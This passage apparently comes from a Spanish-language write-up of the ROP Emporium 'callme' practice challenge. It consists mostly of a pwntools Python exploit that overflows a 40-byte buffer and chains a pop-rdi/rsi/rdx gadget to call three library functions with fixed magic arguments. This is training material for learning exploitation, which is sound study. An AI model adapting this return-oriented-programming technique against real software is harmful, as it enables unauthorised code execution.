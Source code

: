 Ahora que sabemos todo esto podemos hacer el script final:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./callme")
libc = ELF("./libcallme.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b usefulFunction
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    offset = 40
    pop_rdi_rsi_rdx = 0x0040093c
    
    payload = flat({
        offset: [
            pop_rdi_rsi_rdx,
            0xdeadbeefdeadbeef,
            0xcafebabecafebabe,
            0xd00df00dd00df00d,
            
            exe.plt.callme_one,
            
            pop_rdi_rsi_rdx,
            0xdeadbeefdeadbeef,
            0xcafebabecafebabe,
            0xd00df00dd00df00d,
            
            exe.plt.callme_two,
            
            pop_rdi_rsi_rdx,
            0xdeadbeefdeadbeef,
            0xcafebabecafebabe,
            0xd00df00dd00df00d,
            
            exe.plt.callme_three
        ]
    })

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```
